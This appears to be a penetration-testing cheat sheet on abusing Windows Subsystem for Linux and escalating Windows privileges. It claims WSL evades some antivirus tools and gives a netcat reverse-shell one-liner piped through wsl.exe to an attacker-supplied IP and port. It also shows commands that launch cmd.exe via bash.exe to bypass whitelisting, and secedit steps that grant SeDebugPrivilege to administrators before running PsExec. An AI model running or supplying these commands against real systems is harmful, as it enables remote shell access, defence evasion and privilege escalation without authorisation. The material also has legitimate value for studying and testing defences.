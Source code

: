 ### Windows Subsystem for Linux WSL
- AVs which do not use Pico process APIs have no visibility of the processes executed using WSL. This provides better chances of bypass.
- With the additional Linux tooling included (like Python), WSL increases the attack surface of a machine and the opportunities to abuse the new functionality.

#### Netcat shell
```
wsl.exe mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc <IP> <PORT> 1>/tmp/backpipe
```

#### Bypass whitelisting
- In both the above cases, the Windows application will have:
  – Same permissions as the WSL process. 
  – Run as the current Windows user.
  – Uses the working directory as the WSL command prompt. That is we can access the Windows file system from WSL.
```
bash.exe -c cmd.exe
wsl.exe cmd.exe
```

## Privileges

#### Check current privileges
```
whoami /priv
```

### SeDebugPrivileges
- http://woshub.com/obtain-sedebugprivilege-debug-program-policy-enabled/

#### Export the current user rights set by the group policies to a text file:
```
secedit /export /cfg secpolicy.inf /areas USER_RIGHTS
```

#### Edit the secpolicy.ing
- Change the SeDebugPrivileges to ```S-1-5-32-544``` the Local administrator group.
```
notepad.exe secpolicy.inf
```
- Or converts sids: http://woshub.com/convert-sid-to-username-and-vice-versa/

#### Save the new user rights set
```
secedit /configure /db secedit.sdb /cfg secpolicy.inf /overwrite /areas USER_RIGHTS
```

#### Start cmd again
- Check privileges with ```whoami``` if not having SeDebugPrivilege do ```PsExec.exe -i cmd.exe```
